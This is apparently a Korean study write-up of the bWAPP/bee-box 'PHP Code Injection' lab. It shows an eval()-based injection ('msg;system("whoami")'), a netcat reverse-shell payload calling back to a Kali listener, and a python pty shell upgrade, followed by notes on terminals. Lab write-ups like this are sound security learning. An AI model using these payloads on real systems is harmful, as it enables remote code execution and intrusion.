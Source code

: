 ## PHP Code Injection

![chrome_UxFxP15OFQ](https://user-images.githubusercontent.com/79683414/134443409-9a005f07-5992-4a47-8042-1e594ae81687.png)

![chrome_nl8frdT2JG](https://user-images.githubusercontent.com/79683414/134443702-d254f75f-b673-464b-a420-28c577caf0ce.png)

OS Command Injection 과 같이, PHP 코드를 인젝션 하는 문제이다.

__message__ 를 클릭히니 "test"라는 문자열이 출력된다.

URL을 보니 GET 방식인 것을 알 수 있다.

message 변수에 test 대신 다른 문자열을 입력해서 공격하는 문제인듯 하다.

<br/>

<br/>

<br/>

### low

처음에 <script> 태그를 삽입해 보았는데 아무 반응이 없었다.

다음으로 문제 이름에 맞게 php 코드를 삽입해 보았다.

php injection 이 가능한지 테스트 해보기 위해  `';'`를 이용했다.

<br/>

<br/>

<br/>

![chrome_DBCgDN6MhD](https://user-images.githubusercontent.com/79683414/134445637-2231bcd6-b69d-4cd5-a6ff-01daf8edfa0d.png)

pay : _msg;system("whoami")_

php 코드가 성공적으로 삽입되었다.

이전 문제들에서는 불가능 했던 php 코드 인젝션이 가능한 이유를 찾기 위해 코드를 살펴보았다.

<br/>

<br/>

<br/>

![Code_ZU4xvxhvCv](https://user-images.githubusercontent.com/79683414/134446502-f465b87d-0063-4990-b0cd-3c6fd61e0770.png)

__@eval__ 함수는 매개변수(String) 을 PHP 코드로 취급하겠다는 함수이다.

따라서 위에서 조작한 message 의 내용이 그대로 PHP 코드가 되는 것...

"이걸로 쉘 획득하세요" 라고 말해주는 것 같았다.

> PHP-eval() : https://www.php.net/manual/en/function.eval.php

<br/>

<br/>

<br/>

OS Command Injection 에서 했던 것 처럼,

칼리에서 포트를 리스닝으로 열어 놓고 bee-box에서 nc 명령을 입력했다.

- Kali : `nc -lvp 6666`

- bee : `msg;system("nc <Kali IP> 6666 -e /bin/sh")`

![chrome_8TOzxhRz8z](https://user-images.githubusercontent.com/79683414/134449912-7156715f-00a0-43f6-a824-d522470e6905.png)
![vmware_7POsRRx4rB](https://user-images.githubusercontent.com/79683414/134449957-57377247-7e7a-4e81-9e92-27351c19dd40.png)

<br/>

<br/>

<br/>

성공적으로 리버스 쉘을 획득했다.

원격으로 쉘을 획득했을 때 프롬프트가 보이지 않아서 불편하기도 하고,

vi 도 사용할 수 없다.(가능은 하지만 정상적인 출력을 하지 않아서 불편;;)

여기서 사용하는 재밌는 개념이 pseudo-terminal 이다.

<br/>

`python -c 'import pty;pty.spwan("/bin/bash")'`

![vmware_YqFUZVk0yH](https://user-images.githubusercontent.com/79683414/134450518-a092c9c9-ce0b-4a36-a64f-87e6ebc2f32f.png)

<br/>

<br/>

<br/>

~~tty, pty 는 처음 접하는 개념이라 정확하지 않지만...~~

'Teletypewrite', 일반적으로 터미널이라 부르는 것들이다.

리눅스에서 사용하는 터미널의 종류는 tty, ttys, pts, pty으로 `/dev` 에 속해있다.

자신의 터미널을 확인하려면 `tty` 를 이용하면 된다.

- tty : 일반 CLI 콘솔
- ttys : 시리얼 tty
- pts : 기본 xwindows를 위한 가상 콘솔(xwindow 는 GUI 환경을 뜻함)

> __Pseudo-Terminals__
>
> https://www.gnu.org/software/libc/manual/html_node/Pseudo_002dTerminals.html

<br/>

<br/>

<br/>

위의 명령어의 정확한 동작방식은 아직 이해되진 않지만,

pty를 새로 생성해서 python이 프롬프트를 띄워주는? 방식으로 예상 중 이다....

